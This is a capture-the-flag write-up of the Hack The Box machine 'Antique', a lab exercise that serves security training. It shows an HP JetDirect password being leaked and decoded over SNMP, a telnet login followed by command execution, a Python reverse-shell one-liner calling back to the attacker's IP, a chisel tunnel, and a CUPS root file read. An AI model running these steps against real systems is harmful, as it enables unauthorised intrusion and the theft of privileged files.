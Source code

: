 # Antique

URL: https://app.hackthebox.com/machines/Antique

Level: Easy

Date 16 Oct 2021

## Walkthrough

- [Enumeration](#enumeration)
- [User flag](#user-flag)
- [Privesc](#privesc)

# Enumeration

## NMAP

Let's start with a basic nmap scan:

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:00 2021 as: nmap -T4 -p- -oN 01_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.049s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
23/tcp open  telnet

# Nmap done at Sat Oct 16 15:00:30 2021 -- 1 IP address (1 host up) scanned in 29.54 seconds
```

We got just one single port. Let's check again with -A: 

```
# Nmap 7.91 scan initiated Sat Oct 16 15:00:59 2021 as: nmap -T4 -p23 -A -oN 02_nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270:
|     JetDirect
|     Password:
|   NULL:
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.91%I=7%D=10/16%Time=616ACD1F%P=x86_64-pc-linux-gnu%r(NUL
SF:L,F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPa
SF:ssword:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRe
SF:quest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x
SF:20JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DN
SF:SVersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatus
SF:RequestTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nP
SF:assword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerb
SF:eros,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPasswo
SF:rd:\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19
SF:,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalS
SF:erver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDir
SF:ect\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,
SF:"\nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20Jet
SF:Direct\n\nPassword:\x20");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   42.05 ms 10.10.14.1
2   43.92 ms 10.10.11.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 16 15:04:14 2021 -- 1 IP address (1 host up) scanned in 195.95 seconds
```

It seems we are facing a printer device (HP JetDirect).

Let's check again if SNMP is returning other detail, according to this:

https://www.exploit-db.com/exploits/22319

```
root@kali:/opt/htb/Antique# snmpwalk -v1 -cpublic 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
Created directory: /var/lib/snmp/cert_indexes
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

So, our string is:

```
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

Let's try to decode:

```
root@kali:/opt/htb/Antique# sed -e 's/\ //g' 4_string
504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135
```

```
root@kali:/opt/htb/Antique# python
Python 2.7.18 (default, Sep 24 2021, 09:39:51)
[GCC 10.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> "504073737730726440313233212131323313917181922232526273031333435373839424349505154575861657475798283869091949598103106111114115119122123126130131134135".decode("hex")
'P@ssw0rd@123!!123\x13\x91q\x81\x92"2Rbs\x03\x133CSs\x83\x94$4\x95\x05\x15Eu\x86\x16WGW\x98(8i\t\x19IY\x81\x03\x10a\x11\x11A\x15\x11\x91"\x121&\x13\x011\x13A5'
>>> quit
Use quit() or Ctrl-D (i.e. EOF) to exit
>>>
```

It seems password is `P@ssw0rd@123!!123` (after we have some garbage).

We can also use this resource:

https://string-functions.com/hex-string.aspx

We try telnet with such password and we are in!

```
root@kali:/opt/htb/Antique# telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

## User-flag

```
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
>
```

```
> exec cat user.txt
3e10a6020aa944847af1d5d96cee1673
>
```

We try to obtain a reverse shell:

```
> exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

## Privesc

Through `netstat -natlp` we discover that port 631/TCP is listening only on localhost.

We want to access web interface of CUPS service, we use `chisel` (since we have no SSH access).

https://github.com/jpillora/chisel/releases

On our attacker machine:

```
root@kali:/opt/tools/chisel# ./chisel_1.7.6_linux_amd64 server -p 8000 -reverse
2021/10/16 16:09:38 server: Reverse tunnelling enabled
2021/10/16 16:09:38 server: Fingerprint grujYiVy8ha00e/5A6PPV7IFz6LbuzQXD8r799Wt                                                                                                              o4M=
2021/10/16 16:09:38 server: Listening on http://0.0.0.0:8000
```

On victim (after transfer `chisel` binary through python web server):

```
lp@antique:/tmp$  ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
 ./chisel client 10.10.14.14:8000 R:631:127.0.0.1:631
2021/10/16 14:09:51 client: Connecting to ws://10.10.14.14:8000
```

From now, every connection made on port 631/TCP on our machine is forwarded to port 631 on target.

We found that CUPS version is 1.6.1.

According to this:

https://www.rapid7.com/db/modules/post/multi/escalate/cups_root_file_read/

We should be able to retrieve files content, even with root privileges.

On target machine:

```
cupsctl ErrorLog="/root/root.txt"
```

On attacker machine:

```
root@kali:/opt/htb/Antique# curl http://localhost:631/admin/log/error_log
b07549ac8dc04884e51ba5bc0c9992ac
```
